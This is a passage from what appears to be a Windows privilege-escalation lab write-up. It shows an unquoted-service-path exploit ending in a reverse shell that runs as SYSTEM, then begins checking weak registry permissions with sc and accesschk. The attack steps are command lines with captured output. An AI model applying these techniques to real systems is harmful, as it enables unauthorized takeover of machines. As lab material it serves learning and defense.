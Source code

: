 - copy payload to writable dir and named `Common.exe` as Common dir  under `Unquoted path`

- Start Service

```bash
C:\PrivEsc>net start unquotedsvc
net start unquotedsvc
```


```bash
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.27.238 49778 received!
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



**`Service Exploits - Weak Registry Permissions`**


- check registry service

```bash
sc>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem


```

service run with system privilege `SERVICE_START_NAME : LocalSystem`

- check if this registry entry its writable

```bash
C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
	KEY_ALL_ACCESS
```
